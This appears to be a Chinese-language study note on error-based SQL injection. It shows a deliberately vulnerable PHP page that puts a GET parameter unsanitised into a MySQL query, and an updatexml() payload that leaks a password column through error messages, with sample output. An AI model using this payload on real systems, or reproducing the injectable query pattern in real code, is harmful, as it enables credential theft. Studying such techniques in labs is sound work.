 # blablabla

Error-Type Injection 利用报错信息获得隐私数据

```php
<?php
    $conn = mysqli_connect("localhost","root","kali","test");
    $res = mysqli_query($conn, "SELECT title, content FROM wp_news WHERE id='".$_GET['id']."'") OR VAR_DUMP(mysqli_error($conn));
    
    $row = mysqli_fetch_array($res);
    
    echo "<center>";

    echo "<h1>".$row['title']."</h1>";

    echo "<br>";
    
    echo "<h1>".$row['content']."</h1>";

    echo "</center>";
?>
```

?id=1 正常
?id=1%27 (1') 将会把输出内容替换成报错信息

- 没有报错信息而是白屏？

这和php.ini中关于报错的显示有关系，主要涉及到三个环境变量：`display_errors`，`display_startup_errors`和`reporting_error`。

将前两者设置为`On`(数值1)，

`reporting_error`设置为E_ALL即可（实际生产环境中也有其他设置的方法）

所以有的时候error_injection不一定成功，可能目标服务器将报错信息显示关闭，这也是解题时需要考虑的。

而测试环境中打个报错php然后var_dump测试一下就可以。

测试环境中用下面的代码加在php的最开头则可以强制设定环境变量（一次性）
```php
ini_set('display_errors', 1);
ini_set('display_startup_errors', 1);
error_reporting(E_ALL);
```

利用这个报错信息我们可以获取许多敏感信息比如：

?id=1' or updatexml(1, concat(0x7e,(select pwd from wp_user)),1)--+

其中--+是MySql的注释符号，把多余的单引号注释掉（注意mariaDB版本）

输出信息：

```
Fatal error: Uncaught mysqli_sql_exception: XPATH syntax error: '~this_is_the_admin_password' in /var/www/html/sql3.php:7 Stack trace: #0 /var/www/html/sql3.php(7): mysqli_query() #1 {main} thrown in /var/www/html/sql3.php on line 7
```

可以看到报错信息竟然意外地给出了我们所查询的pwd~

updatexml()是MySQL的XML函数，如果参数不合法会报错，并把第二个参数内容输出到错误信息里，也正是利用这一点我们查询到了pwd的值（

```
UPDATEXML(xml_target, xpath_expr, new_value)
```

- xml_target：XML 文本。
- xpath_expr：XPath 表达式。
- new_value：用于替换的值。

通常只要 xpath_expr 非法，MySQL 就会报错并把 xpath_expr 的内容显示在错误信息中。

1显然不是合法的xml

（以下是知识补充）
XML（eXtensible Markup Language，可扩展标记语言）是一种用于结构化存储和传输数据的标记语言。它由W3C（万维网联盟）制定，设计目标是具有良好的可扩展性、可读性，并且易于人和机器理解。

（和html相近）